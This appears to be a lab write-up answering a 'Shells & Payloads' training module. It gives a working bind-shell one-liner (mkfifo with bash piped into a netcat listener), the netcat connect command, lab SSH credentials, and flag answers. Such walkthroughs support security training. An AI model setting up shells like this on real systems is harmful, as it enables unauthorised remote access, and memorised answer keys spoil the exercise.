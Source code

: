 # Shells & Payloads



## Anatomy of a shell

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



### Questions

1. Which two shell languages did we experiment with in this section? (Format: shellname\&shellname)

**bash\&powershell**

2. In Pwnbox issue the $PSversiontable variable using PowerShell. Submit the edition of PowerShell that is running as the answer.

run pwnbox

`$PSVersionTable`

**Core**

## Bind Shells

Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?

**443**

SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

`ssh htb-student@10.129.201.134`

* PW: `HTB_@cademy_stdnt!`

**target-machine:** `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | sudo nc -l 10.129.201.134 443 > /tmp/f`

**my machine:** `sudo nc -nv 10.129.201.134 443`

`cd /customscripts`

`cat flag.txt`

**B1nD\_Shells\_r\_cool**



